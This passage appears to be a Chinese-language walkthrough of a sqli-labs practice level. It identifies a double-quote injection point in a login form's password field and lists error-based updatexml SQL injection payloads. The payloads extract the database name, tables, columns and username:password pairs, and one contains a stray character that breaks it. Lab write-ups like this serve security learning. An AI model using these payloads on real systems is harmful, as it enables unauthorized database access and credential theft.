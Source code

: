 # 确认闭合状态
输入：passwd=Dumb&submit=Submit&uname=Dumb

无回显

输入：passwd=Dumb'&submit=Submit&uname=Dumb

显示报错信息：near '"Dumb"" LIMIT 0,1' at line 1  
说明本关是双引号闭合

输入：passwd=Dumb" --+&submit=Submit&uname=Dumb  
正常，无回显

其他与上一关一样

# 查询数据库名
passwd=1" and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+&submit=Submit&uname=Dumb

# 查询表名
passwd=1" and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)--+&submit=Submit&uname=Dumb


# 查询列名
passwd=1"“" and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()),0x7e),1)--+&submit=Submit&uname=Dumb


# 查询值
passwd=1" and updatexml(1,concat(0x7e,substring((select group_concat(username,':',password) from users),1,10),0x7e),1)--+&submit=Submit&uname=Dumb

passwd=1" and updatexml(1,concat(0x7e,substring((select group_concat(username,':',password) from users),11,10),0x7e),1)--+&submit=Submit&uname=Dumb

passwd=1" and updatexml(1,concat(0x7e,substring((select group_concat(username,':',password) from users),21,10),0x7e),1)--+&submit=Submit&uname=Dumb

...